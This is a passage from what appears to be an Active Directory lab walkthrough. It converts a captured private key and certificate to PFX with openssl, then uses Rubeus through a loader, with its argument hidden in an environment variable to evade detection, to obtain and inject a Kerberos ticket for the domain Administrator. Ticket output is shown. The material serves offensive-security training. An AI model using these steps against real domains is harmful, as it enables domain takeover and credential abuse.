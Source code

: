 Copy all the text between "-----BEGIN RSA PRIVATE KEY-----" and "-----END CERTIFICATE-----" and save it to `cert.pem`.

```
C:\Windows\system32> notepad C:/AD/Tools/cert.pem
```

We need to convert it to PFX to use it.
Use openssl binary on the student VM to do that. I will use "P@ssw0rd1!" as the export password.

```
C:\Windows\system32> C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\DA.pfx

Enter Export Password:
Verifying - Enter Export Password:
```

Finally, request a TGT for the DA using the certificate and inject in current session.

```
C:\Windows\system32> echo %Pwn%

asktgt

C:\Windows\system32> C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:Administrator /certificate:C:\AD\Tools\DA.pfx /password:P@ssw0rd1! /nowrap /ptt

[SNIP]

[*] Action: Ask TGT 🎟️

[SNIP]

[+] Ticket successfully imported!

  ServiceName              :  krbtgt/us.techcorp.local
  ServiceRealm             :  US.TECHCORP.LOCAL
  UserName                 :  Administrator 🎭
  UserRealm                :  US.TECHCORP.LOCAL 🏛️
  StartTime                :  4/29/2025 8:16:45 AM
  EndTime                  :  4/29/2025 6:16:45 PM
  RenewTill                :  5/6/2025 8:16:45 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  c4MZyq++l7+wDles9DFMYQ==
  ASREP (key)              :  D5969548E934EDD0CE0271C4188AE9B6
```

```
C:\Windows\system32> klist

[SNIP]

Cached Tickets: (1) 🎟️

#0>     Client: Administrator 🎭 @ US.TECHCORP.LOCAL 🏛️
        Server: krbtgt/us.techcorp.local @ US.TECHCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 4/29/2025 8:16:45 (local)
        End Time:   4/29/2025 18:16:45 (local)
        Renew Time: 5/6/2025 8:16:45 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

